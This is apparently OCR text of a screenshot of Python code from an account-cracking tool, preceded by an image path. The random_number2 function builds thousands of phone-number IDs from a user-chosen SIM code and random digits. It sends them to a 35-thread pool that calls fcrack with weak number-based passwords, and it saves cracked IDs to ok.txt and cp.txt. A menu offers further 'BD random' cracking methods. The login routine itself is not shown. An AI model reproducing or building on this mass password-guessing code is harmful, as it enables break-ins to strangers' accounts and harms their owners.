 def random_number2():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru]
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#____________
def bd():
	os.system('clear')
	print(logo)
	print('\x1b[1;97m[1] BD Randm Method\x1b[1;92m [1]')
	print('\x1b[1;97m[2] BD Randm Method \x1b[1;92m[2]')
	print('\x1b[1;97m[3] BD Randm Method \x1b[1;92m[3]')
	print('\x1b[1;91m[4] Go to main menu')
	linex()
	rifat=input('Select option :')
	if rifat =='1':
		bd1()
	if rifat =='2':
		bd2()
	if rifat =='3':
		bd3()
	if rifat =='4':
		menu()
	else:
		print(' Select option');menu()
